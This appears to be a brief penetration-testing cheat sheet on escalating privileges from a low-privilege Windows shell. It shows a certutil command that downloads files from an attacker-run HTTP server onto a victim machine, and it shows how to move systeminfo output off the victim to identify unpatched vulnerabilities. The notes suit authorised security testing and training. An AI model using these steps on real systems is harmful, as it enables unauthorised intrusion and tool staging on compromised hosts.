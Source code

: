 This post contents is about when you get a low, unprivileged shell on a Windows Machine.
First and foremost thing is to upload files on the system.
### a
    Start server on attacker machine:
    >python3 -m http.server 80 #on attacker machine
    On victim machine:
    >certutil.exe -urlcache -split -f http://<ip><port>/path/to/file

Easy way to check for privilege escalation vulnerabilties is to use [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) 
Steps to use Windows-Exploit-Suggester
### b
    On attacker machine:
    Install xlrd python library.
    >python windows-exploit-suggester.py -update #this will create a .xls file which will contain all ms cve's   
    On victim MS machine, run systeminfo to fetch system information, and save it locally on attacking machine as sys.txt.
    Then on attacking machine use
    >python windows-exploit-suggester.py --database file.xls --systeminfo sys.txt
    It will list all the vulnerabilties. 
    Note: [E] means Exploitdb, [M] means metasploitable
